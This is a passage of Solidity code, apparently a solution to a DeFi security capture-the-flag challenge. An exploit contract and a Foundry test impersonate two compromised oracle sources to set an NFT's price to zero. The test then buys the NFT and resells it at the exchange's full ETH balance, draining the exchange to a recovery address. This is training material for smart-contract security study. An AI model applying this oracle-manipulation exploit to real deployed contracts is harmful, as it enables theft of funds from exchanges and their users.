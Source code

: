 ```solidity
        exchange.sellOne(nftId);
    }
    function recover(uint amount) external {
        payable(recovery).transfer(amount);
    }
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4){
        return this.onERC721Received.selector;
    }
    receive() external payable{
    }
}
```

```solidity
   function setPrice(uint price) internal {
        vm.startPrank(sources[0]);
        oracle.postPrice(symbols[0],price);
        vm.stopPrank();
        vm.startPrank(sources[1]);
        oracle.postPrice(symbols[0],price);
        vm.stopPrank();
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_compromised() public checkSolved {
        CompromisedExploit exploit = new CompromisedExploit{value:address(this).balance}(oracle, exchange, nft, recovery);
        setPrice(0);
        exploit.buy();
        setPrice(EXCHANGE_INITIAL_ETH_BALANCE);
        exploit.sell();
        exploit.recover(EXCHANGE_INITIAL_ETH_BALANCE);
    }
```